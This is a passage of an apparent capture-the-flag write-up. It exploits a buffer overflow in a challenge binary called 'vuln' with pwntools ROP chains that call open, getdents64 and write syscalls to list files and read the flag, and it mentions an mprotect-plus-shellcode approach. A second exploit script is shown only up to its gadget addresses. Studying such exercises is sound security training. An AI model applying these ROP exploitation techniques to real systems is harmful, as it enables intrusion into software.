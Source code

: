```python
open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
getdents64_addr = libc_base + libc.sym['getdents64']
pop_rdx_r12_ret = libc_base + libc_pop_rdx_r12_ret
pop_rax_ret = libc_base + libc_pop_rax_ret
syscall = libc_base + libc_syscall

sh.recvuntil(b"size?\n")
sh.send(b'-1')
sh.recvuntil(b"content?\n")
payload = b'a'*0x30 + p64(bss_addr+0x100) + p64(pop_rdi_ret) + p64(0)
payload += p64(pop_rsi_r15_ret) + p64(bss_addr+0x100) + p64(0)
payload += p64(pop_rdx_r12_ret) + p64(0x30) + p64(0)
payload += p64(pop_rax_ret) + p64(0)
payload += p64(syscall) + p64(main_addr)
sh.sendline(payload)
sh.recvuntil(b"done!\n")
payload = b'./\x00'
sh.sendline(payload)

sh.recvuntil(b"size?\n")
sh.send(b'-1')
sh.recvuntil(b"content?\n")
payload = b"A"*0x30 + p64(bss_addr + 0x100)
payload += p64(pop_rax_ret) + p64(0x2)
payload += gen_para_payload(p64(bss_addr + 0x100), p64(0x10000), p64(0))
payload += p64(syscall)

payload += p64(pop_rax_ret) + p64(78)
payload += gen_para_payload(p64(3), p64(bss_addr + 0x100), p64(0x1000))
payload += p64(syscall)

payload += p64(pop_rax_ret) + p64(0x1)
payload += gen_para_payload(p64(1), p64(bss_addr + 0x100), p64(0x1000))
payload += p64(syscall)
payload += p64(main_addr)
sh.sendline(payload)
sh.recvuntil(b"done!\n")
sh.interactive()
```



Finally, the chosen method was to use `mprotect` to change permissions and then write a shellcode.

It should be noted that in this question, many write-ups read the flag name first and then read the file content in a subsequent connection. However, due to changes in the flag name with each new connection, a different approach was adopted for this write-up.

Exp:

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process('./vuln')
elf = ELF('./vuln')
libc = ELF('./libc-2.31.so')

pop_rdi_ret = 0x0401443
pop_rsi_r15_ret = 0x0401441
libc_pop_rdx_r12_ret = 0x011c371
libc_pop_rax_ret = 0x04a550
```